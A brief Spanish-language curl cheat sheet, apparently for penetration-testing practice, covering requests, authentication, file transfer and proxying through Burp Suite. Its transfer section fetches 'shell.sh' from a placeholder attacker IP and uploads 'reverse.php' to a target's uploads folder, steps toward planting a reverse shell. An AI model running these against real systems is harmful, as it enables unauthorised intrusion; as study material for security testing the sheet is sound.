

# Curl



<h2 id="peticiones">1.- Peticiones HTTP</h2>

Con curl principalmente podemos realizar diferente tipo de peticiones ya sea get,put,post delete como se muestra.

```sh
curl -H "User-Agent:user-agent" http://ejemplo.com/
```

```sh
curl -I http://ejemplo.com/
```

```sh
curl -i http://ejemplo.com/
```
<h2 id="autenticacion">2.- Autenticacion</h2>
Con la diferentes parametros de curl podemos realizar diferente tipo de peticiones enfocadas autenticacion:

Autenticacion por usuario y contraseña
```sh
curl -X POST -d "username=user&password=miclave123" http://ejemplo.com/login
```
Autenticacion por token
```sh
curl -H "Authorization: Bearer <TOKEN>" http://ejemplo.local/api/v1/users
```
Autenticacion por cookies
```sh
curl --cookie "PHPSESSID=12345" http://target.local/dashboard.php
```
<h2 id="transferencia"> 3.- Transferencia</h2>
Con estos parametros podemos descargar o transferir archivos.

Descarga de script
```sh
curl http://<TU_IP>/shell.sh -o /tmp/shell.sh
```
Subir un archivo

```sh
curl -X PUT -T reverse.php http://target.local/uploads/reverse.php
```


<h2 id="configuracion"> 4.- Configuracion </h2>

Se pueden realizar diferentes configuraciones como ignorar certificados de https o podemos configurarlo con burpsuite.

Ignorar certificado SSL
```sh
curl -k https://target.local
```
Cambiar el User-Agent
```sh
curl -A "Mozilla/5.0" http://target.local
```
Pasar el trafico por Burp Suite (Proxy)
```sh
curl -x http://127.0.0.1:8080 http://target.local
```
